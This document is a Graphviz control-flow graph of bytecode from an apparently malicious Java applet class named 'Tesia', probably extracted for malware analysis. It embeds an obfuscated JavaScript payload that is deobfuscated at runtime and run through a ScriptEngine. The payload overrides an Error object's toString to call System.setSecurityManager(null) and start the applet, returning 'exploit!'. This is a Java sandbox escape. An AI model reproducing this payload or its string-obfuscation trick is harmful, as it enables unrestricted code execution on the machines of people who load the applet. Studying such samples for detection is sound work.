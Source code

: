 digraph "" {
    "r0 := @this: Tesia"
    "new java.lang.String"
    "r0 := @this: Tesia"->"new java.lang.String";
    "dup1.r"
    "new java.lang.String"->"dup1.r";
    "specialinvoke <java.lang.String: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.String: void <init>()>";
    "store.r r20"
    "specialinvoke <java.lang.String: void <init>()>"->"store.r r20";
    "new Men"
    "store.r r20"->"new Men";
    "store.r $r3"
    "new Men"->"store.r $r3";
    "load.r $r3"
    "store.r $r3"->"load.r $r3";
    "specialinvoke <Men: void <init>()>"
    "load.r $r3"->"specialinvoke <Men: void <init>()>";
    "specialinvoke <Men: void <init>()>"->"load.r $r3";
    "fieldget <Men: javax.script.ScriptEngine kkswwop>"
    "load.r $r3"->"fieldget <Men: javax.script.ScriptEngine kkswwop>";
    "push \"virf3ddar erirf3ddroirf3ddr = neirf3ddw Erirf3ddroirf3ddr(\\\"irf3ddy erirf3ddroirf3ddr\\\");thirf3ddis.toirf3ddStrirf3ddinirf3ddg = fuirf3ddncirf3ddtion(){ jairf3ddva.lairf3ddng.Syirf3ddsteirf3ddm.seirf3ddtSeirf3ddcurirf3ddityManairf3ddger(nuirf3ddll);appirf3ddlet.stirf3ddarirf3ddt();reirf3ddtuirf3ddrn \\\"exirf3ddploirf3ddit!\\\";};erirf3ddrirf3ddor.messirf3ddagirf3dde = thiirf3dds;\""
    "fieldget <Men: javax.script.ScriptEngine kkswwop>"->"push \"virf3ddar erirf3ddroirf3ddr = neirf3ddw Erirf3ddroirf3ddr(\\\"irf3ddy erirf3ddroirf3ddr\\\");thirf3ddis.toirf3ddStrirf3ddinirf3ddg = fuirf3ddncirf3ddtion(){ jairf3ddva.lairf3ddng.Syirf3ddsteirf3ddm.seirf3ddtSeirf3ddcurirf3ddityManairf3ddger(nuirf3ddll);appirf3ddlet.stirf3ddarirf3ddt();reirf3ddtuirf3ddrn \\\"exirf3ddploirf3ddit!\\\";};erirf3ddrirf3ddor.messirf3ddagirf3dde = thiirf3dds;\"";
    "push \"irf3dd\""
    "push \"virf3ddar erirf3ddroirf3ddr = neirf3ddw Erirf3ddroirf3ddr(\\\"irf3ddy erirf3ddroirf3ddr\\\");thirf3ddis.toirf3ddStrirf3ddinirf3ddg = fuirf3ddncirf3ddtion(){ jairf3ddva.lairf3ddng.Syirf3ddsteirf3ddm.seirf3ddtSeirf3ddcurirf3ddityManairf3ddger(nuirf3ddll);appirf3ddlet.stirf3ddarirf3ddt();reirf3ddtuirf3ddrn \\\"exirf3ddploirf3ddit!\\\";};erirf3ddrirf3ddor.messirf3ddagirf3dde = thiirf3dds;\""->"push \"irf3dd\"";
    "push \"\""
    "push \"irf3dd\""->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "load.r r0"
    "pop"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push 0"->"load.r $r3";
    "load.r $r3"->"fieldget <Men: javax.script.ScriptEngine kkswwop>";
    "push \"erirf3ddroirf3ddr\""
    "fieldget <Men: javax.script.ScriptEngine kkswwop>"->"push \"erirf3ddroirf3ddr\"";
    "push \"erirf3ddroirf3ddr\""->"push \"irf3dd\"";
    "push \"irf3dd\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <Tesia: javax.swing.JList piydsw>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <Tesia: javax.swing.JList piydsw>";
    "fieldput <Tesia: javax.swing.JList piydsw>"->"push 0";
    "store.i $r3"
    "push 0"->"store.i $r3";
    "load.i $r3"
    "store.i $r3"->"load.i $r3";
    "load.i $r3"->"push 1";
    "ifcmpge.i load.r r0"
    "push 1"->"ifcmpge.i load.r r0";
    "new java.lang.StringBuilder"
    "ifcmpge.i load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r20"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r20";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r20"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r20";
    "inc.i $r3 1"
    "store.r r20"->"inc.i $r3 1";
    "goto load.i $r3"
    "inc.i $r3 1"->"goto load.i $r3";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpge.i load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <Tesia: javax.swing.JList piydsw>"
    "load.r r0"->"fieldget <Tesia: javax.swing.JList piydsw>";
    "virtualinvoke <Tesia: java.awt.Component add(java.awt.Component)>"
    "fieldget <Tesia: javax.swing.JList piydsw>"->"virtualinvoke <Tesia: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <Tesia: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
}
